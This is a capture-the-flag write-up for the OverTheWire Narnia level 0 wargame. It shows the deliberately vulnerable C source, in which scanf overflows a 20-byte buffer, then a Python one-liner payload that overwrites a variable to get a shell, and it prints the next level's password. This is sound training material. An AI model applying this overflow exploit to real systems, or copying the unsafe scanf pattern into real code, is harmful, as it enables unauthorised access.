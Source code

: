 ## Login 

` SSH : ssh narnia0@narnia.labs.overthewire.org -p 2226 `
` Pass : narnia0 `

## Solution

First, let’s try to execute the program…

```
narnia0@narnia:~$ cd /narnia/
narnia0@narnia:/narnia$ ./narnia0 
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: TEST
buf: TEST
val: 0x41414141
WAY OFF!!!!
```

### Source Code

Now, let’s take a look at the source code.

```
#include <stdio.h>
#include <stdlib.h>

int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);

    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }

    return 0;
}
```

To solve this challenge, we need to change the **val** value initialized with `0x41414141` to `0xdeadbeef`.

Here, the issue come from the _scanf()_ function. It allows the user to enter **24** chars however, the **buf** variable is only **20** bytes so, we can overwrite _4_ bytes.

Let’s try to write 24 bytes as input and check if the address changes.

```
narnia0@narnia:/narnia$ python -c 'print 20 * "A" + "BBBB"' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAABBBB
val: 0x42424242
WAY OFF!!!!
```

It seems that we were able to modify the original value of **val** with `0x42424242`. We will do the same thing with the right value or `0xdeadbeef`

```
narnia0@narnia:/narnia$ (python -c 'print 20*"A" + "\xef\xbe\xad\xde"'; cat;) | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ�
val: 0xdeadbeef
whoami
narnia1
cat /etc/narnia_pass/narnia1
WDcYUTG5ul
```

Easy, right ?
